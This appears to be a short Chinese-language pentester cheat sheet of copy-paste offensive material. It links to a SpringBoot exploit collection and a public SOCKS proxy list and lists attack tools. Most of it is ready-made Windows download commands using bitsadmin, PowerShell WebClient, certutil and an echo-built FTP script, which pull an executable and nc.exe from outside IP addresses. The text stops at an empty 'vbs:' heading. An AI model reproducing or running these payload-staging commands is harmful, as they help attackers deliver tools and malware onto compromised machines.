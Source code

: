 ```yaml
---
title: 常用复制粘贴
---
```


springboot 测试
https://github.com/LandGrey/SpringBootVulExploit


经常公布socks代理：[http://livesocksupdate.blogspot.com/](http://livesocksupdate.blogspot.com/)

pentesters arsenal tools:

- Metasploit
- Burp Suite
- w3af
- mitmproxy
- sqlmap
- Faraday
- fuzzdb
- radare2
- Nikto2
- nmap
- sublist3r

downloader常用方法如下：

·  certUtil
·  powershell
·  csc
·  vbs
·  JScript
·  hta
·  bitsadmin
·  wget
·  debug
·  ftp
·  ftfp

 1. bitsadmin /rawreturn /transfer getfile http://202.1.1.1/1.php.txt D:\1.txt
 2. powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://4.5.1.1/a.exe', '2.exe')"
 3. certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/version.txt file.txt

 ftp:
    
    echo USER offs >>  ftp.txt
    echo lab >> ftp.txt
    echo bin >> ftp.txt
    echo GET nc.exe >> ftp.txt
    echo bye >> ftp.txt
    
    ftp -v -n -s:ftp.txt

vbs:
 